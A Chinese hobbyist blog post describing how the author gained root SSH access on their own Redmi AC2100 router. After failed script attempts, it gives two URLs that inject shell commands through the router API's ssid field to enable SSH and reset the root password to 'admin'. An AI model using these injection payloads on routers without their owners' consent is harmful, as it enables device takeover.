 ```yaml
---
date: 2021-01-29
title: 红米 AC2100 开启 SSH 权限
tags:
  - 刷机
  - 路由器
---
```

> TL;DR [看这里](https://www.right.com.cn/forum/thread-4032490-1-1.html)，成功版本为 `2.0.23 稳定版`，其他版本不保证成功。



之前按照 [这篇](https://www.xiaoz.me/archives/15192) 想开启路由器的 telnet 权限。

dalao 写了一些脚本，但是遇到了很多问题，包括但不限于：
- 由于忘关火绒导致 nc 被删除，弹出 `nc.exe不是内部或外部命令，也不是可运行的程序或批处理文件。8081端口被占用，请检查`。解决方法为进入火狐的恢复区恢复文件，并添加信任，以免误删。
- 获取包的时候脚本报错，但还是提示 PPPOE 获取成功。这个问题原因为演示版本为 `1.0.14`，而新路由器被官方自动升级为了 `2.0.23`，方法已不再适用。解决方法为从 `官方救砖工具以及原厂固件备份` 文件夹中手动上传 `1.0.14` 包升级 ROM。
- 第一次失败，无法继续。解决方法为断开 WAN LAN 口相连线，然后重试。

然后，，，到复制命令的时候死活进不去，于是放弃了。

突然看到 [帖子说](https://www.right.com.cn/forum/thread-4032490-1-1.html) 有漏洞可以钻，试了下直接拿下了 SSH 的 root 权限：

首先注销登陆的账户，然后重新登陆，这时观察浏览器顶上的 url,会有 `stok` 的参数，这就是 token 啦。有了 token 按照帖子里的办法就办法注入了，只需要两次就行，一定要吧 `<STOK>` 替换为自己的 token。

去掉 `#` 开头的注释，把链接复制到浏览器里面，注意把 <STOK> 替换为自己的。

```bash
# enable SSH

http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B

# change password to `admin`
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B

```

然后就可以愉快的一行登陆啦（密码为 `admin`）

```bash
ssh root@192.168.31.1
```
